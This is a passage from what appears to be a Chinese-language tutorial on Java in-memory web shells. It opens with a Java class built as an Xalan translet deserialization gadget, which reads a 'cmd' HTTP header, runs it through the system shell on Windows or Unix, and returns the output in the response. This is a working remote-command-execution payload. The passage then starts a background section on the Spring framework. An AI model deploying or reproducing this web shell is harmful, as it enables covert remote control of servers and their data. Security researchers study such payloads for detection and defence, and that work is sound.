 ```java
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }
}
```




## Spring内存马
Spring框架是一个开放源代码的J2EE应用程序框架，是针对bean的生命周期进行管理的轻量级容器。Spring可以单独应用于构筑应用程序，也可以和Struts、Webwork、Tapestry等众多Web框架组合使用，并且可以与 Swing等桌面应用程序AP组合

>Spring 框架主要由七部分组成，分别是`Spring Core、Spring AOP、Spring ORM、Spring DAO、Spring Context、Spring Web 、Spring Web MVC`
Spring全家桶包括5个关键部分: `Spring framework、Spring MVC、Spring Boot、Spring Cloud、Spring Security`。其中spring framework 就是常提到的spring，这是所有spring内容最基本的底层架构，其包含spring mvc、springboot、spring core、IOC和AOP等等。Spring mvc就是spring中的一个MVC框架，主要用来开发web应用和网络接口，但是其使用之前需要配置大量的xml文件，比较繁琐，所以出现springboot，其内置tomcat并且内置默认的XML配置信息，从而方便了用户的使用。Spring Cloud基于Spring Boot，简化了分布式系统的开发。Spring Security用于做鉴权，保证安全性
